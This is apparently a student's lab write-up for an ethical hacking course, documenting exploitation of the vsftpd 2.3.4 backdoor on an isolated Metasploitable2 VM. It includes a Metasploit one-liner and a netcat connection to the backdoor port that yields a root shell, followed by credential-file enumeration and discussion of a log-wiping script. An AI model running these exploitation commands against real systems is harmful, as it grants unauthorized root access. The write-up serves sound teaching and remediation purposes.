




# CYB 405 Lab 4 - System Hacking & Privilege Escalation Against an Isolated Ethical Hacking Lab
 


 
**Author:** Dalla Samuel (CyberJKD)
 
**Date:** 11th August 2026
 
**Platform:** VirtualBox 7.x · Local Host Machine
 
**Course:** CYB 405 - Introduction to Ethical Hacking · Miva Open University (Mid-Semester Lab 4 of 8, + 2 Bonus)
 
**Roadmap:** [Phase 04 · CYB 405 Lab 04](https://dallasamuel.github.io/CyberJKD-Roadmap)
 
**YouTube Walkthrough:** [YouTube Link](https://youtu.be/mrZ21U-3NNs)
 
**Viewer Guide:** [Viewer Guide Link](https://tinyurl.com/CYB-405-Lab-4-Viewer-Guide)
 
---
 
## Objective
 
Gain controlled, low-level access to the Labs 1-3 target (Metasploitable2, `192.168.56.101`) by exploiting a known service-level vulnerability, escalate privileges responsibly where applicable, 
collect evidence at each stage, and produce a remediation plan - while correctly documenting where the exploit itself bypasses the normal escalation model entirely, rather than manufacturing a step that isn't there.
 
---
 
## Business Problem This Lab Solves
 
Exploitation is where recon and enumeration turn into actual proven risk - a finding on paper becomes a demonstrated compromise, which is what a real remediation conversation with a business needs to see before it prioritizes a fix.
 
| Role | How this applies |
|------|-----------------|
| SOC Analyst | Recognizing a service-level backdoor vs. a normal misconfiguration changes the entire incident response playbook - this distinction matters for triage |
| Cloud Security Engineer | A supply-chain-compromised package is the same threat class as a poisoned container image or malicious dependency in a cloud build pipeline |
| Penetration Tester | Demonstrating actual root access, not just a theoretical CVE match, is what separates a scan report from a proof-of-concept in a real engagement |
| SysAdmin | Anti-forensics tooling found on a host (log wiping, disabled history) is a defender's worst-case discovery - this lab shows what that looks like from the other side |
 
---
 
## Environment
 
| Component | Detail |
|-----------|--------|
| Hypervisor | Oracle VirtualBox 7.x |
| Attacker VM | Kali Linux Rolling (2026.1) - 2048MB RAM, 2 vCPU - `192.168.56.102` |
| Target VM | Metasploitable2 - 1024MB RAM - `192.168.56.101` |
| Network mode | Host-Only Adapter (vboxnet0) - no bridging, no NAT, no path to the internet |
| Subnet | `192.168.56.0/24` - DHCP disabled, static addressing (carried over unchanged from Lab 1) |
| Infrastructure | Fully reused from Labs 1-3 - no new VM installs or networking changes required |
| Snapshot discipline | A dedicated pre-exploitation snapshot was taken before this lab, since it's the first lab in the series to actually modify target state rather than only enumerate it |
 
---
 
## Key Concepts
 
### Why this isn't a normal vulnerability
vsftpd 2.3.4 isn't vulnerable in the conventional sense of a coding flaw discovered after release. 
The official source archive was maliciously replaced with a backdoored version for a period in 2011 - meaning anyone who downloaded that specific release got a hidden root-shell trigger baked directly into the binary. 
That distinction matters for the remediation conversation: this isn't a patch-the-CVE fix, it's "don't run this specific compromised build at all."
 
### Why there's no separate privilege escalation phase
The lab spec calls for privilege escalation following initial access. 
Here, the backdoor hands out root immediately on trigger - there's no low-privilege foothold to escalate from. 
Rather than inventing an escalation step to match the task list's shape, this lab documents *why* that step doesn't apply, the same pattern used for the WHOIS/DNS air-gap limitations in Lab 2 and the masscan limitation in Lab 3.
 
### Why the exploit was fired via netcat instead of relying on Metasploit's session handler
Metasploit's `vsftpd_234_backdoor` module reliably triggers the backdoor (confirmed by the "Backdoor has been spawned!" message every time) but intermittently fails to auto-connect a Meterpreter session over it, returning a "Cooldown?" warning. 
Since the backdoor listener stays open on the target regardless of whether Metasploit's own handler completes, connecting directly with `nc <target> 6200` is a reliable, simpler alternative that doesn't depend on that handshake succeeding.
 
---
 
## Exercise A - Exploit Research
 
**Objective:** Confirm an exploit exists for the vsftpd 2.3.4 banner identified in Lab 2's recon.
 
**Command used:**
```bash
searchsploit vsftpd 2.3.4
```
 
**What I found:**
- `vsftpd 2.3.4 - Backdoor Command Execution` (Python PoC, `unix/remote/49757.py`)
- `vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)` (`unix/remote/17491.rb`)
**Real-world application:** confirming an exploit's existence and reading its module details before firing anything is standard practice - it also tells you what payload/behavior to expect, which matters when troubleshooting later.
 
---
 
## Exercise B - Pre-Exploitation Snapshot & Connectivity Check
 
**Objective:** Establish a rollback point and confirm the target is reachable before any exploitation begins - this lab is the first in the series to actually change target state.
 
**Commands used:**
```bash
ping -c 3 192.168.56.101
```
```
VBoxManage snapshot "Metasploitable2" take pre-lab4 --description "Pre-exploitation baseline before Lab 4"
```
 
**Real-world application:** the same discipline as a change-window rollback plan in production - never touch a system you can't cleanly revert.
 
---
 
## Exercise C - Gaining Access
 
**Objective:** Trigger the vsftpd 2.3.4 backdoor and obtain a shell on the target.
 
**Command used:**
```bash
msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOST 192.168.56.101; set LHOST 192.168.56.102; exploit"
```
 
**What happened:** the module correctly identified the vulnerable banner and spawned the backdoor listener on port 6200 every time, 
but Metasploit's own session handler intermittently failed to complete the connection ("Unable to connect to backdoor on 6200/TCP. Cooldown?"). 
Since the listener remains open on the target regardless, the working path was a direct connection:
 
```bash
nc 192.168.56.101 6200
whoami
```
 
**Output:** `root` - confirmed access, no authentication required.
 
**Screenshot:**
 

 
**Real-world application:** this is precisely why a real engagement documents *both* the intended tool path and a working fallback - relying on a single tool's internal handshake succeeding isn't a safe assumption to build a report around.
 
---
 
## Exercise D - Privilege Escalation (Not Applicable - Documented)
 
**Objective:** Escalate from initial access to root, per the lab specification.
 
**Finding:** no escalation step exists to perform. The vsftpd backdoor grants root directly on connection - `whoami` and `id` confirm root/uid=0 immediately, with no intermediate low-privilege user session at any point.
 
**Real-world application:** documenting a negative result correctly (root was never NOT held) is itself the deliverable here, the same discipline used for the Lab 2 WHOIS/DNS air-gap findings.
 
---
 
## Exercise E - Post-Exploitation Enumeration
 
**Objective:** Enumerate the target from the root shell per the lab specification.
 
**Commands used:**
```bash
uname -a
cat /etc/passwd
sudo -l
id
hostname
```
 
**What I captured:**
- `uname -a` - Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
- `/etc/passwd` - full user list, matching the ~30 accounts enumerated via SMB in Lab 3, including the `msfadmin` and `user` accounts flagged there as the only non-disabled logins
- `sudo -l` - `User root may run the following commands on this host: (ALL) ALL` (root's own standing rights, not an escalation path, since root was already held)
- `id` - `uid=0(root) gid=0(root)`
- `hostname` - `metasploitable`
**Screenshot:**
 

 
**Real-world application:** cross-referencing this enumeration against Lab 3's SMB-derived user list is the kind of finding-correlation a real assessment report leans on to build a complete picture of the target, not just a single-lab snapshot.
 
---
 
## Exercise F - Secondary Findings: Anti-Forensics Tooling
 
**Objective:** Document anything found beyond the lab's baseline requirements while enumerating `/root`.
 
**Commands used:**
```bash
ls -la /root
cat /root/reset_logs.sh
```
 
**What I found:**
- `.bash_history` is a symlink to `/dev/null` (`lrwxrwxrwx 1 root root 9 May 14 2012 .bash_history -> /dev/null`) - no interactive root command is ever recorded to disk
- `reset_logs.sh` present in `/root` - a script that stops `syslogd` and `samba`, zeroes out `auth.log`, `boot`, `btmp`, `daemon.log`, `debug`, `dmesg`, `kern.log`, the `mail.*` logs, `messages`, `syslog`, `udev`, and `wtmp` via in-place truncation, and deletes Samba, DHCP, ProFTPD, PostgreSQL, and Apache logs outright
**Screenshot:**
 

 

 
**Real-world application:** finding a ready-made log-wiping script on a compromised host is a genuinely severe discovery in a real incident - it means a prior or ongoing compromise may have already destroyed the evidence needed to investigate it. 
This is exactly the class of finding that turns a routine pentest into an incident-response escalation.
 
---
 
## Exercise G - Remediation Plan
 
Full remediation plan submitted separately as the formal school deliverable (`CYB405_Lab4_Report_and_Remediation_Plan.docx`), covering:
1. vsftpd 2.3.4 backdoor (Critical) - upgrade/replace, integrity verification, firewall restriction
2. Backdoor bypasses normal privilege model (Critical) - least-privilege service accounts as baseline hygiene
3. Anti-forensics tooling present (High) - centralized/remote logging, file integrity monitoring, investigate script provenance
4. Weak password policy (Medium, carried over from Lab 3) - enforce complexity and lockout
---
 
## Command Reference - Used in This Lab
 
| Command | What it does |
|---------|--------------|
| `searchsploit vsftpd 2.3.4` | Searches the local exploit-db mirror for known exploits matching a service/version string |
| `VBoxManage snapshot "<vm>" take <name> --description "<desc>"` | Creates a named, timestamped VM snapshot before state-changing work begins |
| `msfconsole -q -x "..."` | Launches Metasploit non-interactively with a pre-set command chain |
| `nc <target> <port>` | Connects directly to an open TCP listener - used here as a reliable alternative to Metasploit's session handler |
| `uname -a` | Displays kernel/OS version info |
| `cat /etc/passwd` | Lists all system user accounts |
| `sudo -l` | Lists commands the current user may run via sudo |
| `ls -la /root` | Lists root's home directory contents, including hidden files |
| `cat /root/reset_logs.sh` | Displays the full contents of a discovered anti-forensics script |
 
---
 
## Verification - Lab Completion Checklist
 
| Requirement | Verified |
|-------|---------|
| Exploit researched and confirmed available | ✅ |
| Pre-exploitation snapshot taken | ✅ |
| Shell/root access gained | ✅ |
| Privilege escalation step addressed (documented as not applicable) | ✅ |
| Target enumerated (`uname -a`, `/etc/passwd`, `sudo -l`, `id`) | ✅ |
| Evidence collected at each stage | ✅ |
| Secondary findings documented (anti-forensics tooling) | ✅ |
| Remediation plan written | ✅ |
 
---
 
## Troubleshooting Log
 
Real infrastructure work involves real errors - documented here rather than edited out, since reproducibility is part of the grading criteria for this course.
 
| Issue | Root Cause | Resolution |
|-------|-----------|------------|
| `msfconsole -x "...; exploit"` failed with `Msf::OptionValidateError` on LHOST | LHOST (attacker callback IP) was never set before the first exploit attempt | Added `set LHOST 192.168.56.102` to the command chain |
| Typed `exit`, then tried running `set LHOST` / `exploit` directly in bash | Those are msfconsole-internal commands, not shell commands - `exit` had already closed msfconsole | Re-launched msfconsole with the full command chain (RHOST, LHOST, and exploit) in one line so nothing gets lost between steps |
| Second exploit attempt failed: "port used by the backdoor bind listener is already open/in-use (6200/TCP)" | The first exploit attempt had already triggered the backdoor and opened the listener on the target; Metasploit correctly refused to re-trigger it | Connected directly to the already-open listener with `nc 192.168.56.101 6200` instead of re-running the exploit |
| Exploit re-run (after a full snapshot restore) again returned "Unable to connect to backdoor on 6200/TCP. Cooldown?" | Confirmed via a genuinely fresh VM state that this is a reliability quirk of the Metasploit module's session handler, not leftover state from earlier attempts | Documented as a known module limitation; used the netcat direct-connect method as the reliable path going forward |
| `nc 192.168.56.101.6200` failed - "forward host lookup failed: Unknown host" | Typo - a period was used instead of a space between the IP and the port | Corrected to `nc 192.168.56.101 6200` |
| Chained command `cat /root/.bash_history 2>/dev/null; ls -la /root` produced garbled output and shell errors | Input got reordered/corrupted, likely a copy-paste artifact (`2>/dev/null` became `/null/dev`, flags merged) | Re-ran as two separate, simple commands instead of one chained line |
 
---
 
## What I'd Change for Production
 
| Lab approach | Production reality |
|-----------|-------------------|
| Manual snapshot restore/retake cycle between exploit attempts | Production/CI-driven lab ranges use automated environment reset on a schedule or on-demand via API, not manual VirtualBox clicks |
| Direct netcat connection used as a fallback to an unreliable Metasploit session handler | Production exploitation frameworks and red-team tooling are expected to have well-tested, reliable session establishment - a real engagement would flag this module's reliability as a tooling risk to plan around |
| Anti-forensics tooling discovered by manual directory listing | Production EDR/host-monitoring tools would flag log-service stoppage and mass log truncation in real time, rather than requiring a human to stumble on it during enumeration |
| Root access confirmed via manual `whoami`/`id` checks | Production post-exploitation frameworks (e.g., Cobalt Strike, full Meterpreter sessions) automate privilege-level reporting and persistence tracking |
 
---
 
## Connection to Roadmap
 
This lab is part of **CYB 405 - Introduction to Ethical Hacking**, Miva Open University's mid-semester laboratory assessment series (8 core labs + 2 bonus challenges), tracked as **Phase 04 - CYB 405: Ethical Hacking Foundations** on the CyberJKD Cloud Security Engineering roadmap. Per standing preference, this phase is added to the live public roadmap only once all 10 labs/bonus challenges are complete, as a single finished block rather than an in-progress tracker.
 
This lab builds directly on the environment and findings from Labs 1-3 - the vsftpd 2.3.4 entry point and the `msfadmin`/`user` account context were both surfaced in earlier labs. Findings here feed directly into:
- **Lab 5** - Malware Analysis & Reverse Engineering (requires an instructor-provided malware sample before starting - separate infrastructure track)
- **Lab 8** - Evasion, IDS/Firewall Bypass & DDoS Simulation (the weak password policy and now-confirmed root-access path both remain relevant threat context)
---
 
## Appendix - All Output Files Verified
 
Final evidence set confirmed for this lab: exploit trigger and root confirmation (Meterpreter session + netcat `whoami`), full enumeration output (`uname -a`, `/etc/passwd`, `sudo -l`, `id`), `/root` directory listing, and `reset_logs.sh` full contents.
 
---
 
🌐 Full roadmap: [dallasamuel.github.io/CyberJKD-Roadmap](https://dallasamuel.github.io/CyberJKD-Roadmap)
 
🔗 All labs: [github.com/DallaSamuel/CyberJKD-Labs](https://github.com/DallaSamuel/CyberJKD-Labs)
 
---
 
*CyberJKD - Becoming dangerous through fundamentals. 🔒*
